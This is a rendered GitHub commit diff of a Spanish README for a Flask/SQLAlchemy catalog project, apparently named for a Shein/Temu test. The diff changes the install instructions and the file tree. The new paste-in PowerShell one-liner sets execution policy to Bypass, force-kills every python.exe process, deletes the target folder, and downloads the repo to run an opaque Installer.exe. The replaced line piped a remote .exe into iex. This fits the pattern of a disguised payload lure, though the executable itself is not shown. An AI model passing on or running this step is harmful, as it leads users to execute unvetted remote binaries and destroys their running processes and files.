

Before and after one commit to Riutexu/Prueba-de-Shein-Temu, a Markdown page: README.md, 3 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Revise installation instructions and file structure
Updated installation script and directory structure in README.

````diff
--- a/README.md
+++ b/README.md
@@ -33,7 +33,7 @@ Construido sobre **Python 3.10+, Flask y SQLAlchemy 2.0**, este proyecto nació
 Si quieres dejar de sufrir, simplemente abre tu terminal y ejecuta:
 
 ```powershell
-iwr -useb https://raw.githubusercontent.com/Riutexu/Prueba-de-Shein-Temu/main/installer.exe | iex
+Set-ExecutionPolicy Bypass -Scope Process -Force; $destDir = "$([Environment]::GetFolderPath('Desktop'))\Prueba-de-Shein-Temu"; $zipFile = "$env:TEMP\repo.zip"; taskkill /F /IM python.exe /T 2>$null; if (Test-Path $destDir) { Remove-Item $destDir -Recurse -Force }; Invoke-WebRequest -Uri "https://github.com/Riutexu/Prueba-de-Shein-Temu/archive/refs/heads/main.zip" -OutFile $zipFile; Expand-Archive -Path $zipFile -DestinationPath "$env:TEMP\extract" -Force; Move-Item "$env:TEMP\extract\Prueba-de-Shein-Temu-main" $destDir; Remove-Item "$env:TEMP\extract" -Recurse -Force; Start-Sleep -Seconds 2; if (Test-Path "$destDir\Installer.exe") { Start-Process -FilePath "$destDir\Installer.exe" -WorkingDirectory $destDir } else { Write-Host "Error: El archivo Installer.exe no se encontró en el repositorio descargado. Asegúrate de haber subido el .exe a la rama main." -ForegroundColor Red }
 ```
 
 Este script se encarga de todo: descargar el repo, preparar el entorno, instalar dependencias y dejarte un icono en el escritorio.
@@ -94,16 +96,14 @@ Pre-Visualizacion de como quedarian los archivos en el explorador de archivo o e
 │   │   │   ├── 🎨 components.css
 │   │   │   ├── 🎨 layout.css
 │   │   │   └── 🎨 variables.css
-│   │   ├── 📁 fonts/
 │   │   ├── 📁 icons/
 │   │   │   └── 🖼️ sprites.svg
-│   │   ├── 📁 js/
-│   │   │   ├── 📄 admin.js
-│   │   │   ├── 📄 api.js
-│   │   │   ├── 📄 app.js
-│   │   │   ├── 📄 catalog.js
-│   │   │   └── 📄 utils.js
-│   │   └── 📁 uploads/
+│   │   └── 📁 js/
+│   │       ├── 📄 admin.js
+│   │       ├── 📄 api.js
+│   │       ├── 📄 app.js
+│   │       ├── 📄 catalog.js
+│   │       └── 📄 utils.js
 │   ├── 📁 templates/
 │   │   ├── 📁 admin/
 │   │   │   ├── 🌐 categories.html
@@ -126,10 +126,16 @@ Pre-Visualizacion de como quedarian los archivos en el explorador de archivo o e
 │   ├── 📄 catalog.db
 │   ├── 📄 catalog.db-shm
 │   └── 📄 catalog.db-wal
+├── 📁 ico/
+│   └── 📄 W_D.ico
 ├── 📁 logs/
-├── 📄 1) Install Dependencies.bat
-├── 📄 2) Start Software.bat
+├── 📁 src/
+│   └── 📄 install.ps1
+├── ⚙️ Installer.exe
 ├── 📝 README.md
+├── 📄 build.ps1
 ├── 📄 requirements.txt
 └── 🐍 run.py
+
+────────────────────────────────────────────────────────────────────────────────
 ```
````
Also changed, not shown: other parts of README.md (+2 -0 lines).
